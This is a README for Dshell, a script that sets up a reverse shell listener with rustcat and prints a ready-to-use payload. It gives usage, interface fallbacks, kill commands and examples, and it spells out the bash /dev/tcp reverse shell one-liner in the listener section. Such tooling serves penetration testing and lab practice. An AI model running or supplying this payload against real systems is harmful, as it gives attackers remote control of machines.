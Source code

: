 ## Dshell



> "A reverse shell shows that true control comes when the target reaches back willingly."



**Dshell** is a reverse shell script that prepares a responsive shell on a specified port using [rustcat](https://github.com/robiot/rustcat).


---


### Features

* Quickly set up a reverse shell listener.
* Kill running Dshell processes on demand.
* Supports multiple network interfaces by default.


---


### Installation

Ensure [rustcat](https://github.com/robiot/rustcat) is installed on your system.


---


### Usage

#### Help Menu

```sh
dshell -h

[Info] Usage:
    /usr/local/bin/dshell -p <PORT> [IFACE|IP]
    /usr/local/bin/dshell -k <PORT|all>
```


---


#### Run a Listener

```sh
dshell -p <PORT> [IFACE|IP]
```

Dshell will output the most commonly used reverse shell `bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'` with the supplied IP and PORT
If no interface or IP is supplied, Dshell will try the following interfaces in order:

* `tun1`
* `tun0`
* `wlan0`
* `eth0`
* `lo`


---


#### Kill Running Processes

```sh
dshell -k <PORT|all>
```

* `<PORT>` 		– Kill Dshell process running on a specific port.
* `all` 		– Kill all Dshell processes.


---


#### Examples

Start a listener on port `4444` using `tun0` interface:

```sh
dshell -p 4444 tun0
```

Start a listener on port `4444` using the IP `1.1.1.1`:

```sh
dshell -p 4444 1.1.1.1
```

Kill `all` running Dshell processes:

```sh
dshell -k all
```

Kill Dshell processe that is listening on port `4444`:

```sh
dshell -k 4444
```
